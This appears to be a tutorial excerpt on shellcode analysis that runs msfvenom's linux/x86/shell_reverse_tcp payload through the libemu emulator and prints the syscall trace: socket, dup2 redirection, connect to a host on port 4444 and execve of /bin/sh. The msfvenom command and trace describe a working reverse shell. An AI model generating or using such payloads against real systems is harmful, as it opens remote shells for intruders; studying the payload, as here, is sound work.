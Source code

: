 
### Examining a Reverse TCP shell
Before trying to write a reverse TCP shell in assembly, it can be useful to disassemble an existing payload and understand all of the components at play.

Libemu is a fantastic emulator that can help with running and disassembling shellcode in to meaningful segments and instructions.

The example shellcode below is the `linux/x86/shell_reverse_tcp` payload part of `msfvenom`.

~~~ c
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell_reverse_tcp -f raw -a x86 --platform linux | ./sctest -vvv -S -s 100000
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = -1667454784 (host=192.168.156.156);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 =>
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e =>
               = 0x00416fa6 =>
                   = "//bin/sh";
           = 0x00000000 =>
             none;
     ];
     const char * envp[] = 0x00000000 =>
         none;
) =  0;
~~~
